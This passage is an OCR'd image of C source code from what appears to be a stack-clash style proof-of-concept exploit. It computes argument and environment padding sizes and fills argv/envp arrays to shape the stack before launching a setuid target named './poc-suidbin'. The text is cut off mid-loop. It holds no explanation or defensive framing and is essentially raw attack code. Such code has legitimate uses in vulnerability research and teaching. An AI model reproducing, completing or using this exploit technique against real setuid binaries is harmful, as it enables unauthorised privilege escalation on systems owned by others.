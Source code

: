         const size_t scratch_envsz = (size_t)1 << 20;
        const size_t scratch_envc = scratch_envsz / MAX_ARG_STRLEN;
        if (scratch_envsz % MAX_ARG_STRLEN) die();
        static char scratch_env[MAX_ARG_STRLEN];
        memset(scratch_env, ' ', sizeof(scratch_env)-1);

        const size_t onebyte_envsz = (size_t)256 << 10;
        const size_t onebyte_envc = onebyte_envsz / 1;

        const size_t padding_envsz = offset + alpha;
        /***/ size_t padding_env_rem = padding_envsz % MAX_ARG_STRLEN;
        const size_t padding_envc = padding_envsz / MAX_ARG_STRLEN + !!padding_env_rem;
        static char padding_env[MAX_ARG_STRLEN];
        memset(padding_env, ' ', sizeof(padding_env)-1);
        static char padding_env1[MAX_ARG_STRLEN];
        if (padding_env_rem) memset(padding_env1, ' ', padding_env_rem-1);

        const size_t envc = protect_envc + scratch_envc + onebyte_envc + padding_envc;
        if (envc > MAX_ARG_STRINGS) die();

        const size_t argc = items - (1 + 1 + envc + 1);
        if (argc > MAX_ARG_STRINGS) die();

        const char * const protect_argv[] = {
            "./poc-suidbin",
        };
        const size_t protect_argc = sizeof(protect_argv) / sizeof(protect_argv[0]);
        if (protect_argc >= argc) die();
        size_t _protect_argsz = 0;
      {
        size_t i;
        for (i = 0; i < protect_argc; i++) {
            _protect_argsz += strlen(protect_argv[i]) + 1;
        }
      }
        const size_t protect_argsz = _protect_argsz;

        const size_t padding_argc = argc - protect_argc;
        const size_t padding_argsz = (offset - beta) - (alpha + sprand / 2 +
                       protect_argsz + protect_envsz + scratch_envsz + onebyte_envsz / 2);
        const size_t padding_arg_len = padding_argsz / padding_argc;
        /***/ size_t padding_arg_rem = padding_argsz % padding_argc;
        if (padding_arg_len >= MAX_ARG_STRLEN) die();
        if (padding_arg_len < 1) die();
        static char padding_arg[MAX_ARG_STRLEN];
        memset(padding_arg, ' ', padding_arg_len-1);
        static char padding_arg1[MAX_ARG_STRLEN];
        memset(padding_arg1, ' ', padding_arg_len);

        const char ** const envp = calloc(envc + 1, sizeof(char *));
        if (!envp) die();
      {
        size_t envi = 0;
        size_t i;
        for (i = 0; i < protect_envc; i++) {
            envp[envi++] = protect_envp[i];
        }
        for (i = 0; i < scratch_envc; i++) {
            envp[envi++] = scratch_env;
        }
        for (i = 0; i < onebyte_envc; i++) {
            envp[envi++] = "";
        }
        for (i = 0; i < padding_envc; i++) {
            if (padding_env_rem) {
                envp[envi++] = padding_env1;
                padding_env_rem = 0;